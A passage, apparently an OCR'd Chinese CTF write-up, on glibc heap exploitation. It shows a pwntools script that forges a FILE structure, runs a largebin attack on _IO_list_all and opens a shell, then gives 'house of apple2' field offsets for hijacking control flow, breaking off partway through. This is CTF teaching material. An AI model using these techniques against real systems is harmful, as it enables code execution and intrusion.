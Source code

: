 ```c
fake_IO = fake_IO.ljust(0xe0, b'\x00') + p64(chunk_address) # 该chunk地址

payload = fake_IO[0x10:]

# prepare for largebin attack
add(index=0, size=0x440, content=b'aaa')
add(index=1, size=0x20, content=b'gap')
add(index=2, size=0x460, content=b'aaa')
add(index=1, size=0x20, content=b'gap')

# put larger chunk into largebin
delete(index=2)
add(index=1, size=0x500, content=b'aa')

# put smaller chunk into unsortedbin
delete(index=0)

# largebinattack
edit(index=2, size=0x460, content=b'a'*0x18 + p64(libc.sym['_IO_list_all'] - 0x20))
add(index=1, size=0x500, content=b'aaa')

# house of obstack
edit(index=0, size=0x440, content=payload)

# debug()
sh.sendlineafter(choice_words, '6')
# pause()
sh.interactive()
# debug()

```

# house of apple2(_IO_wfile_overflow)

## 适用版本

`Latest`

## 利用方式

主要分为三个部分。`fp`构造如下：

- `fp->_flags`满足`~(2|0x8|0x800)`，例如`0`、`空格空格sh`
- `fp->_IO_write_ptr > fp->_IO_write_base`，偏移分别为`0x28`和`0x20`
- (`glibc >= 2.38`)`fp->_lock`满足可写，偏移为`0x88`
- `fp->_IO_wide_data`设置为可控的`chunk A`的地址，偏移为`0xa0`
- `fp->_mode`设置为`0`，偏移为`0xc0`
- `fp->_vtable`设置为`_IO_wfile_jumps`的偏移，使其调用`_IO_wfile_overflow`，偏移为`0xd8`

`chunk A`作为`_IO_wide_data`，其构造如下：
